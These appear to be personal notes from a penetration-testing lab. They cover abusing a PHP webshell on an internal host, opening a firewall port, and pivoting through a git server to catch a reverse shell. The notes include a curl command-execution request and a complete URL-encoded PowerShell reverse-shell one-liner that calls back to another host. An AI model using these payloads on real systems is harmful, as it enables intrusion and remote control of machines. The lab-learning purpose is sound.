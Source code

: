 
```
POST /web/exploit-sardarji.php HTTP/1.1

Host: 10.200.87.150

User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate, br

Connection: close

Cookie: csrftoken=4Z65FLlf0WIwqYkgLN8R6kETdRgXT2w4; sessionid=43621cb6f1a317423ef820294d1f2b07

Upgrade-Insecure-Requests: 1

Content-Type: application/x-www-form-urlencoded

Content-Length: 8


```


```
curl -X POST http://10.200.87.150/web/exploit-sardarji.php -d "a=whoami"
```

```
refer notepad for now
```

So we have 2 methods to execute and talk back with the server
1st Burpsuite
2nd Curl

I was not getting the shell means firewall is not allowing us to pass the outbound traffic. So let's open the port which should be greater than 15000.

```
firewall-cmd --zone=public --add-port 15999/tcp
```

```
firewall-cmd --list-all
```

![[Pasted image 20240730191933.png]]

I am doing something wrong will review things.

So i have checked and we are getting the reverse shell at the production server
![[Pasted image 20240731122756.png]]

So let's see if we have configured the socat correctly or not.

So i am able to ping the compromised server from the kali aka attacker machine.
![[Pasted image 20240731130835.png]]

But not able to ping our ping machine through git-server
![[Pasted image 20240731131033.png]]


I got the mistake i was doing
![[Pasted image 20240731132151.png]]

![[Pasted image 20240731132441.png]]
See gitserv can talk back to production serv
10.200.87.150 -> 10.200.87.200

10.200.87.200 -> attacker machine

SO we have two ways either get the reverse shell in the production server itself.
In both the technique we have to add the port to allow in the firewall.

```
curl -X POST http://10.200.87.150/web/exploit-sardarji.php -d "a=powershell%20-nop%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%2710.200.87.200%27%2C15999%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22"
```

So what i was doing is i though we have to put the attacker IP in the reverse shell